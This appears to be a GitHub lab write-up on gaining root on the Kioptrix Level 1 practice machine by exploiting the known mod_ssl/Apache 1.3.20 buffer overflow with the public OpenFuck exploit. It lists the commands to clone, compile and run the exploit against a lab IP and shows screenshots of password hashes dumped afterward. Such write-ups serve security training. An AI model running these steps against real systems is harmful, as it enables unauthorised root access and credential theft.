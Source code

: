 # Kioptrix L1: Privilege Escalation exploiting Secure Socket Layer + Apache Server

## Summary:
The versions of SSL+Apache available in Kioptrix L1 allows an attacker to run a buffer overflow attack and gain root privileges.

## Technical Details:
The version available of mod_ssl in Kioptrix L1 is 2.8.4 and Apache's version is 1.3.20, taking in count Kioptrix is implemented using Red Hat Linux, there is a known
vulnerability to run a buffer overflow in order to gain root access, technical disclosure about the vulnerability named as OpenFuckV2 is available **[here](https://www.exploit-db.com/exploits/764)** 
and **[here](https://github.com/heltonWernik/OpenLuck)**.

## Steps to exploit the vulnerability:
1) git clone https://github.com/heltonWernik/OpenFuck.git
2) apt-get install libssl-dev
3) cd OpenFuck/
4) gcc -o exploit OpenFuck.c -lcrypto
5) ./exploit
6) ./exploit 0x6b 192.168.80.145 443 -c 40 (run the exploit against a machine implemented just like Kioptrix L1)

## Supporting Material:
1) Running exploit and handshaking:

![openfuck_01.png](./media/openfuck_01.png?raw=true "running exploit and handshaking")

2) whoami, hostname, pwd:

![openfuck_02.png](./media/openfuck_02.png?raw=true "whoami, hostname and pwd commands")

3) Listing password hashes:

![openfuck_03.png](./media/openfuck_03.png?raw=true "password hashes")

## Impact:
The exploitation of this issue compromise 100% the integrity of the Kioptrix L1 Server: sourcecode, user's credentials, directories, files and logs